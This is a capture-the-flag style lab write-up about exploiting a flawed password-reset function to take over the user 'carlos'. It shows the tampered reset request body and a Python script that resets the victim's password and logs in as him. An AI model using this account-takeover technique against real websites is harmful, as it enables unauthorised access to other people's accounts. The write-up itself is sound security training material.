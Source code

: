 This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

---

**Goal:** Exploit password reset functionality, and reset Carlos's password, then log in and access his "My account" page.

**Analysis:** I find a request after resetting the password which i send to repeater. It contains the `temp-forgot-password` token twice, once at the top and once at the bottom of the request. It also takes in a name which i changed to Carlos and received a 302 code back which could mean i've reset the the password successfully.  

![[Pasted image 20240826101453.png]]

```php
temp-forgot-password-token=ss3o2mylqwiyhtveh9jznyudmbolt6io&username=carlos&new-password-1=peter&new-password-2=peter
```

![[Pasted image 20240826101618.png]]

I successfully change the password and log into the **Carlos** account.

---

**Completed:** _10:17 2024-08-26_

**Extra:** _Python script to automate the task._

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def access_carlos_account(s, url):
	
	# Reset Carlos password
	print("(+) Resetting Carlos's password...")
	pass_reset_url = url + "/forgot-password?temp-forgot-password-token=x"
	pass_reset_data = {"temp-forgot-password-token": "x", "username": "carlos", "new-password-1": "peter", "new-password-2": "peter"}
	r = s.post(pass_reset_url, data=pass_reset_data, verify=False, proxies=proxies)
	
	
	# Access Carlos account
	print("(+) Accessing Carlos's account...")
	login_url = url + "/login"
	login_data = {"username": "carlos", "password": "peter",}
	r = s.post(login_url, data=login_data, verify=False, proxies=proxies)
	
	# Confirm exploit worked
	if "Log out" in r.text:
		print("Exploit worked!")
		print("Carlos's password successfully changed to: peter")
	
	else:
		print("Exploit failed.")
		sys.exit(-1)

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <url>' % sys.argv[0])
		print('(+) Example: $s www.example.com' % sys.argv[0])
		sys.exit(-1)
	
	s = requests.Session()	
	url = sys.argv[1]
	access_carlos_account(s, url)

if __name__ == '__main__':
	main()
```

